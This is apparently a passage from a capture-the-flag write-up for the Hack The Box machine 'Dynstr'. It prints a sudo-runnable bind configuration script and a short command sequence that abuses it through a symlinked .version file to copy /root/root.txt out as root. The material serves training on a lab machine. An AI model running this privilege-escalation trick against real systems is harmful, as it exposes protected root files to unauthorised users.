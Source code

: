 # root
sudo -l reveals a script that can be run with no password
````bash
sudo -l
````
![](DYNSTR.HTB-30.png)



````bash
#!/usr/bin/bash
# This script generates named.conf.bindmgr to workaround the problem
# that bind/named can only include single files but no directories.
#
# It creates a named.conf.bindmgr file in /etc/bind that can be included
# from named.conf.local (or others) and will include all files from the
# directory /etc/bin/named.bindmgr.
#
# NOTE: The script is work in progress. For now bind is not including
#       named.conf.bindmgr. 
#
# TODO: Currently the script is only adding files to the directory but
#       not deleting them. As we generate the list of files to be included
#       from the source directory they won't be included anyway.

BINDMGR_CONF=/etc/bind/named.conf.bindmgr
BINDMGR_DIR=/etc/bind/named.bindmgr

indent() { sed 's/^/    /'; }

# Check versioning (.version)
echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
fi
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi

# Create config file that includes all files from named.bindmgr.
echo "[+] Creating $BINDMGR_CONF file."
printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
for file in * ; do
    printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
done

# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/

# Check generated configuration with named-checkconf.
echo "[+] Checking staged configuration."
named-checkconf $BINDMGR_CONF >/dev/null
if [[ $? -ne 0 ]] ; then
    echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
    named-checkconf $BINDMGR_CONF 2>&1 | indent
    exit 44
else 
    echo "[+] Configuration successfully staged."
    # *** TODO *** Uncomment restart once we are live.
    # systemctl restart bind9
    if [[ $? -ne 0 ]] ; then
        echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
	systemctl status bind9
    else
	echo "[+] Restart of bind9 via systemctl succeeded."
    fi
fi
````
- script looks for a file callted .version.
- if the file contains the number 1.1 then it will copy all the contents of .version to /etc/bind/named.bindmgr
- subsequently creating a symbolic link to /root/root.txt from .version will ensure the content of /root/root.txt  are copied to /etc/bind/named.bindmgr


````basj
echo "1.1" > .version
sudo /usr/local/bin/bindmgr.sh
rm .version
ln -s /root/root.txt .version
sudo /usr/local/bin/bindmgr.sh
cat /etc/bind/named.bindmgr/.version
````

![](DYNSTR.HTB-31.gif)
